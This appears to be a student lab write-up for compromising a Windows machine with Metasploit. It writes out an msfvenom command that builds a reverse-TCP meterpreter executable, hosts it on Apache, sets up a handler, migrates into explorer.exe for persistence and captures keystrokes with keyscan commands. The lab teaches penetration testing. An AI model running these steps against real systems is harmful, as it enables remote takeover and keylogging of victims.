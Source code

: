 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![1](<Lab-6 (1).png>)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![2](<Lab-6 (2).png>)
copy the fun.exe into the apache /var/www/html folder
## OUTPUT:

![3](<Lab-6 (3).png>)

Start apache server
sudo systemctl apache2 start
## OUTPUT:
![4](<Lab-6 (4).png>)

Check the status of apache2
## OUTPUT:
![5](<Lab-6 (5).png>)
Invoke msfconsole:
## OUTPUT:

![6](<Lab-6 (6).png>)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![7](<Lab-6 (7).png>)
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


![8](<Lab-6 (8).png>)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 


![9](<Lab-6 (9).png>)
Bypass any warning boxes, double-click the file, and allow it to run.


![10](<Lab-6 (10).png>)
On kali give the command exploit


![11](<Lab-6 (11).png>)
To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156


![12](<Lab-6 (12).png>)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 


![13](<Lab-6 (13).png>)
Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


![14](<Lab-6 (14).png>)

![15](<Lab-6 (15).png>)

keyscan_dump	Shows the keystrokes captured so far


![16](<Lab-6 (16).png>)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
